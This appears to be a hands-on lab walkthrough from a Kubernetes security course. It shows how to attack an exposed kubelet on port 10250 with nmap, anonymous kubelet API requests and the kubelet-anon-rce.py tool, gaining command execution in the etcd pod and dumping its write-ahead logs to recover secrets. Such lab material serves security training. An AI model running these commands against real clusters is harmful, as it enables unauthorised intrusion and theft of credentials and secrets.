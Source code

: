 # **Attacking a K8s Kubelet**

### * *

-------

#### Step 1:

* Navigate to the `Kubelet Attack` directory on the provisioned server.

```
cd /root/container-training/Kubernetes/Kubelet-Attack
```

* Create a few secrets on the k8s cluster

```commandline
kubectl create ns secret

kubectl create -f secrets.yml

kubectl -n secret get secrets
```

### *Our objective is to compromise the `kubelet`, and steal all configs and secrets by gaining access to `etcd`.*

-------

#### Step 2:

* Fetch the IP of the provisioned server

```commandline
serverip
```

* Run an Nmap Scan on the provisioned server to get the list of port and services.

```commandline
# We're running scan against a single port to save some time, but this might take a while
nmap <IP> -sV -p 10250
```

-------

#### Step 3:

* Once it's identified that port `10250` is open, try accessing the following URLs on the browser and observe the results

```commandline
https://<serverip>:10250/metrics

https://<serverip>:10250/pods

https://<serverip>:10250/runningpods/
```

* Fetch the `etcd` pod name from the list of running pods

* Using [`kubelet-anon-rce.py`](https://github.com/serain/kubelet-anon-rce), let's gain access to the `etcd` pod and run a few commands.

```commandline
python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "ls /"

python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "ls /etc/kubernetes/pki/etcd/"

python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "ls /var/lib/etcd/member/wal/"
```

-------

#### Step 4:

* From the `etcd` pod, let's dump all the data!

```commandline
python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "strings /var/lib/etcd/member/wal/0000000000000000-0000000000000000.wal" >> etcd_dump1.txt

python3 kubelet-anon-rce.py --target <serverip> --port 10250 --namespace kube-system --pod etcd-xxxxxxxxxxx --container etcd --exec "strings /var/lib/etcd/member/wal/0000000000000001-00000000000102aa.wal" >> etcd_dump2.txt
```

### *It can be observed that all data is stored in plain text!!*

-------

#### Step 5:

* Delete all the secrets created in *Step 1* by deleting the `secret` namespace

```commandline
kubectl delete ns secret
```

---------

### Reading Material/References:

* https://github.com/serain/kubelet-anon-rce

* https://labs.mwrinfosecurity.com/blog/attacking-kubernetes-through-kubelet/

* https://jakubbujny.com/2018/09/02/what-stores-kubernetes-in-etcd/

* https://coreos.com/etcd/docs/latest/dev-guide/interacting_v3.html

* https://github.com/etcd-io/etcd/blob/7f7e2cc79d9c5c342a6eb1e48c386b0223cf934e/Documentation/admin_guide.md

